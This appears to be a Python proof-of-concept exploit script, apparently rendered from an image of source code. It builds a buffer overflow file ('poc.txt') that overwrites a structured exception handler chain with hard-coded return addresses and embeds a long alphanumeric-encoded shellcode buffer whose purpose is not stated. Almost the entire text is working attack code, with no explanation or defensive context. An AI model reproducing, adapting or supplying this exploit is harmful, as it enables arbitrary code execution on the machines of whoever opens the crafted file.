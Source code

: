 ```terminal_session
buf += b"\x56\x64\x4c\x4b\x47\x71\x4e\x30\x6e\x69\x63\x74\x57"
buf += b"\x54\x57\x54\x31\x4b\x53\x6b\x61\x71\x32\x79\x33\x6a"
buf += b"\x46\x31\x79\x6f\x4d\x30\x73\x6f\x31\x4f\x43\x6a\x6c"
buf += b"\x4b\x37\x62\x48\x6b\x6e\x6d\x71\x4d\x51\x78\x74\x73"
buf += b"\x76\x52\x43\x30\x37\x70\x73\x58\x54\x37\x64\x33\x30"
buf += b"\x32\x61\x4f\x70\x54\x33\x58\x30\x4c\x61\x67\x31\x36"
buf += b"\x66\x67\x69\x6f\x6e\x35\x78\x38\x4a\x30\x46\x61\x33"
buf += b"\x30\x77\x70\x74\x69\x6a\x64\x31\x44\x50\x50\x72\x48"
buf += b"\x66\x49\x6d\x50\x70\x6b\x75\x50\x4b\x4f\x6e\x35\x43"
buf += b"\x5a\x56\x68\x61\x49\x70\x50\x48\x62\x49\x6d\x61\x50"
buf += b"\x62\x70\x33\x70\x56\x30\x70\x68\x39\x7a\x44\x4f\x39"
buf += b"\x4f\x79\x70\x69\x6f\x4e\x35\x5a\x37\x43\x58\x64\x42"
buf += b"\x63\x30\x57\x53\x34\x68\x6c\x49\x5a\x46\x73\x5a\x46"
buf += b"\x70\x32\x76\x62\x77\x35\x38\x5a\x62\x49\x4b\x74\x77"
buf += b"\x50\x67\x4b\x4f\x48\x55\x66\x37\x31\x78\x4f\x47\x68"
buf += b"\x69\x67\x48\x39\x6f\x49\x6f\x69\x45\x53\x67\x62\x48"
buf += b"\x71\x64\x58\x6c\x65\x6b\x78\x61\x39\x6f\x6a\x75\x36"
buf += b"\x37\x6d\x47\x61\x78\x70\x75\x62\x4e\x70\x4d\x45\x31"
buf += b"\x69\x6f\x4e\x35\x71\x78\x43\x53\x70\x6d\x65\x34\x77"
buf += b"\x70\x6c\x49\x7a\x43\x62\x77\x66\x37\x70\x57\x34\x71"
buf += b"\x49\x66\x42\x4a\x44\x52\x53\x69\x50\x56\x58\x62\x4b"
buf += b"\x4d\x72\x46\x39\x57\x53\x74\x75\x74\x77\x4c\x65\x51"
buf += b"\x66\x61\x4e\x6d\x31\x54\x45\x74\x66\x70\x39\x56\x47"
buf += b"\x70\x70\x44\x71\x44\x42\x70\x32\x76\x72\x76\x56\x36"
buf += b"\x61\x56\x70\x56\x42\x6e\x32\x76\x73\x66\x32\x73\x73"
buf += b"\x66\x72\x48\x63\x49\x38\x4c\x47\x4f\x6d\x56\x59\x6f"
buf += b"\x39\x45\x4f\x79\x39\x70\x52\x6e\x71\x46\x51\x56\x49"
buf += b"\x6f\x50\x30\x45\x38\x57\x78\x6c\x47\x47\x6d\x51\x70"
buf += b"\x6b\x4f\x69\x45\x4f\x4b\x79\x70\x57\x6d\x66\x4a\x76"
buf += b"\x6a\x70\x68\x4d\x76\x7a\x35\x4f\x4d\x4f\x6d\x6b\x4f"
buf += b"\x6a\x75\x35\x6c\x64\x46\x33\x4c\x37\x7a\x6f\x70\x4b"
buf += b"\x4b\x59\x70\x50\x75\x43\x35\x4f\x4b\x63\x77\x67\x63"
buf += b"\x32\x52\x62\x4f\x33\x5a\x73\x30\x56\x33\x39\x6f\x7a"
buf += b"\x75\x41\x41"

seh = struct.pack("<I", 0x1002324C)
nseh = struct.pack("<I", 0x06710870)

buffer = "A" * 512 + nseh + seh + "A" * 20 + buf + "\xff" * 200
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

# EndGame
